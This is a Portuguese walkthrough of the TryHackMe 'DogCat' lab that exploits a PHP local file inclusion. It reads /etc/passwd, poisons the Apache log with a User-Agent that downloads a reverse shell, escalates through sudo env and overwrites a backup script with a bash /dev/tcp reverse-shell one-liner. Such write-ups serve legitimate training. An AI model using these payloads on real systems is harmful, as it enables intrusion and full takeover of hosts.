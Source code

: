 # TryHackMe - DogCat

**Índice**

Lista de verificação:

- [ ]  Iniciar VPN TryHackMe
- [ ]  Varredura de Portas com “nmap -A [IP]”.
- [ ]  Verificar código-fonte da página.
- [ ]  Verificar se PHP está em execução.
- [ ]  Verificar a necessidade de encodar URL para RCE ou LFI
- [ ]  Verificar requisições no BurpSuite

## Sobre

Resolução da Room DogCat - TryHackMe.

## Informações

[https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Execução

Iniciamos um PortScan com `nmap -A [IP]` no HOST:

![Captura de tela de 2023-06-28 21-03-29.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F169bdeda-d689-4b77-a7d6-cb9103324a11%2FCaptura_de_tela_de_2023-06-28_21-03-29.png?table=block&id=66e67b11-e308-4770-b1d5-46bbe43a1460&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&width=1520&userId=c637e524-e130-478b-8aab-e7badc4ed67a&cache=v2)

O site contém 2 botões “**A dog”** e “**A cat**”, e o código-fonte aparentemente executa um arquivo PHP de acordo com o botão pressionado.

![Captura de tela de 2023-06-28 21-06-49.png](https://file.notion.so/f/s/822c0c84-71d3-4167-ae05-949b5d893bca/Captura_de_tela_de_2023-06-28_21-06-49.png?id=c8c28ef5-7baa-4332-a5d7-45f7bedae254&table=block&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&expirationTimestamp=1692972000000&signature=vxJZf2m2l7N7St86VxIkzABKBMvbxeQVKc9vhgSp_Gs&downloadName=Captura+de+tela+de+2023-06-28+21-06-49.png)

![Captura de tela de 2023-06-28 21-08-21.png](https://file.notion.so/f/s/913816dc-a55e-46bb-835b-98bfc645b5ad/Captura_de_tela_de_2023-06-28_21-08-21.png?id=3d4dc508-7262-4f73-be26-6e15ca6eefb4&table=block&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&expirationTimestamp=1692972000000&signature=7moQjSFfR5ZpKYrpv4HfuO_K50rGtLjfjO6gOmHrHKg&downloadName=Captura+de+tela+de+2023-06-28+21-08-21.png)

Nesse caso podemos fazer um “teste” PHP adicionando um carácter no ***`/?view=dog`***

![Captura de tela de 2023-06-28 21-11-11.png](https://file.notion.so/f/s/ea73b92c-85a6-4ccb-9f55-95f28ec670a7/Captura_de_tela_de_2023-06-28_21-11-11.png?id=e3bb71c1-6020-4e85-a28f-6c7ad482ba91&table=block&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&expirationTimestamp=1692972000000&signature=Fafoz6dAZtpHKPSgEAPVz4PJEAYXp4VMah59eHXVMAM&downloadName=Captura+de+tela+de+2023-06-28+21-11-11.png)

Como esperado ele diz não poder encontrar o arquivo ***dog*.php*** para executar a função *`include()`.*

Aqui podemos esperar um possível RCE. Podemos usar a URL para navegar e executar arquivos PHP, para teste podemos tentar fazer a mesma coisa para ***cat*** e ***index***. Nesse caso específico, “dog” é como se fosse um argumento necessário para “bypassar” a função `include()`, para depois fazermos o “parse” utilizando **`/../`**

> *No contexto da exploração de uma vulnerabilidade RCE/LFI, pode-se usar 
"http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index" para contornar restrições impostas pelo site.*
> 

No caso do ***`index.php` ,***durante a requisição ele espera alguma constante a ser declarada.

![Captura de tela de 2023-06-28 21-23-27.png](https://file.notion.so/f/s/10819adb-773c-4b9f-85c5-8c0572132cc3/Captura_de_tela_de_2023-06-28_21-23-27.png?id=1ce05873-9af0-45ea-946c-b3b1f8c3125e&table=block&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&expirationTimestamp=1692972000000&signature=GWvz-qH4lcICrYvYaESIPKW6jOFKAB64rAu54k_TUYw&downloadName=Captura+de+tela+de+2023-06-28+21-23-27.png)

![Captura de tela de 2023-06-28 21-23-36.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-23-36.png)

Sabemos que conseguimos executar arquivos .php em `/var/www/html/` , sendo assim podemos tentar fazer a leitura de alguns arquivos do sistema/servidor.

Para conseguimos ter acesso a algum arquivo, temos que ter em mente a navegação via terminal por diretorios linux. Sabemos que nossa base é `?view=dog/../`  e estamos no diretório `/var/www/html/` então usamos `../../../` para irmos ao diretório raíz (/) , e a partir daí buscar nosso arquivo.

Após escolher o arquivo (aí tem que saber a localização de cabeça rs), pedimos para que seja escrito na tela com o **&ext=**  `[IP]/?view=dog/../../../../etc/passwd&ext`= .

### Porque **ext**?

Após verificar o `**dog.php**` usando filtro para imprimir o código em **BASE64** `?view=php://filter /convert.base64-encode/resource=` em `dog/../index` podemos verificar o seguinte código:

---

```php
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>
</html>
```

---

No trecho `$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';` podemos ver que é adicionado **.php** ao final do que estiver na string mencionada. Nesse caso ao digitar **dog&ext,** estamos querendo dizer **dog.php**

---

![Captura de tela de 2023-06-28 22-11-09.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-11-09.png)

---

Sabendo que conseguimos ler arquivos, podemos fazer um **LogPoison** ([link](https://rodolfomarianocy.medium.com/aprenda-a-fazer-log-poisoning-em-ssh-e-apache-via-lfi-65f08a2f7d1d)).

> *Trata-se de sujar logs de serviços e através de RCE e forçar uma execução e uma resposta vinda do servidor, como uma execução de código remoto que vai interpretar e executar nosso código PHP malicioso.*
> 

Em primeiro lugar, sabemos que o serviço WEB que roda neste host é um **Apache**, por padrão o diretório de logs fica localizado em `var/log/apache2/access.log` , e para acessar podemos usar `[IP]/?view=dog/../../../../../../../var/log/apache2/access.log&ext=` 

---

![Captura de tela de 2023-06-28 22-40-58.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-40-58.png)

---

Agora podemos testar o log, dando um comando qualquer em `?view=` . Neste caso digitei **ls -la** e observando o código-fonte da página, podemos ver uma nova requisição armazenada no `access.log` .

![Captura de tela de 2023-06-29 19-58-33.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_19-58-33.png)

O log armazena IP, DT/HR, o tipo de requisição, caminho, e o **UserAgent**. Aqui podemos injetar um arquivo PHP malicioso para obtermos uma SHELL Reversa. ([link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php))

Após configurar devidamente o shell.php, inicio um serviço “WebHTTP” utilizando o Python3:
`sudo python3 -m http.server 80`

E utilizando o BurpSuite, altero o **UserAgent** da requisição do Access.log para o seguinte:

`<?php file_put_contents('shell.php',file_get_contents('http://[IP]/shell.php'))?>`

![Captura de tela de 2023-06-29 20-17-40.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-17-40.png)

---

Nesse momento nosso serviço Web confirma o acesso ao arquivo.

![Captura de tela de 2023-06-29 20-38-22.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-38-22.png)

Agora é só obter a Shell Reversa com o host. Podemos fazer isso usando o NetCat: 

`nc -nlvp 5555`

E pronto! Temos acesso ao Host com sucesso!

![Captura de tela de 2023-06-29 20-40-28.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-40-28.png)

Utilizando o comando `find / -name **flag** 2>/dev/null` , podemos começar a encontrar as Flags.

![Captura de tela de 2023-06-29 20-47-12.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-47-12.png)

Ok, agora vamos ver o que nosso usuário pode executar …

![Captura de tela de 2023-06-29 20-50-26.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-50-26.png)

Ótimo! podemos executar o env como superusuario sem a necessidade de senha. Para facilitar, podemos acessar o GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para pesquisar os comandos.

![Captura de tela de 2023-06-29 20-52-39.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-52-39.png)

---

![Captura de tela de 2023-06-29 20-53-37.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-53-37.png)

Finalmente! Como ROOT tudo fica mais fácil. Agora podemos terminar nossa ROOM encontrando as FLAGS restantes usando o mesmo comando que antes (`find / -name **flag** 2>/dev/null`), só que agora como ROOT.

### E a Flag4?!

Boa pergunta rs

Precisei colar de um Walkthrough do canal “[Optional](https://www.youtube.com/watch?v=zGDbi15Jkqw)” no YouTube, e lá ele mostra um arquivo em `/opt/backups/backup.tar`

Pelo que entendi esse é um container Docker. E pela última modificação do arquivo, ele deve ser executado frequentemente. Então seguindo os passos do “Optional”, como ROOT, sobrescrevi o `backup.sh` usando o comando echo e tive que aguardar uns minutinhos:

`echo -e "#!/bin/bash\nbash -i >& /dev/tcp/10.13.5.224/5555 0>&1" > backup.sh`

![Captura de tela de 2023-06-29 21-25-30.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-25-30.png)

---

E por fim a Flag4 !

---

![Captura de tela de 2023-06-29 21-26-07.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-26-07.png)

---

Obrigado por ler, espero que tenha aprendido alguma coisa :)
